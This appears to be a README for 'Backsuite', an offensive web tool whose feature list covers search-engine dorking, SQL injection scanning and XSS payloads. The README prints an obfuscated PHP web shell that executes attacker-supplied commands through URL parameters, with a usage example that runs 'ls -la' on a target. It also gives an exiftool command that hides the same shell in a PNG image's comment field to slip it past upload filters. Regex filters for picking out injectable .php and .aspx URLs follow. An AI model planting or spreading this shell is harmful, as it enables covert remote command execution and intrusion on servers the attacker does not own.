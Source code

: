  # Backsuite
 
 <ul>
  <li>[ &#x1F608;  ] Dorks with : google.com / yahoo.com / bing.com</li>
  <li>[ &#x1F52D;  ] Scope ending files : <b>php</b> / <b>aspx</b></li>
  <li>[ &#x1F489;  ] Scan : SQL Injection </li>
  <li>[ &#x1F4C4;  ] List of Syntax <I><b>[errors]</b></I> to detect an SQL injection  </li>
  <li>[ &#x274C;  ] Xss payloads   </li>
  <li>[ &#x1F50D;  ] SQL injection - Characters   </li>
</ul>


# Use <TARGET>/file.php?_=system&__=ls -la

SHELL = {`<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]);`}

##### Download <img height="33" width="33" src="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png"><a href="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png">Img<a> 

 `exiftool -Comment='exiftool -Comment="<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]); __halt_compiler();' googleg_standard_color_128dp.png`
<hr>

###### Scope : only view x.php?x=x | and | x.aspx?x=x
`([.]+[aspxh]{3,4}[?]{1,1}[a-zA-Z0-9_-]{1,10}[=]{1,1})` 

###### Scope : only view ALL LINKS x.x?x= | x/x?x | /?x=x
`([?]{1,1}[a-zA-Z0-9\-_=]{1,10})`

###### Scope : only view x.php?x=x | and | x.aspx?x=x | and | x.php/aspx?x
`([.]+[aspxh]{3,4}[a-zA-Z0-9-\_.=?&]{1,50})`

###### Scope : only view x.php/aspx?x=x | x.php/aspx
`([.]+[aspxh]{3,4})`

###### Scope : view all / | x.php/aspx | x.php/aspx?x=x | /?x=x
`([a-z_.-][?-][a-z0-9+$%_.-])?`

###### Scope : only view .php / .aspx / .js / .json
`([a-zA-Z0-9-_.]+[.]+[a-z]{2,4}$)`

###### Scope : only view .php?id=...etc / .aspx?id=12&name=foo
`([a-zA-Z0-9-_.]+[\S]+[?$])`

###### Scope : only view end with /
`([a-zA-Z0-9-_.]+[/]$)`




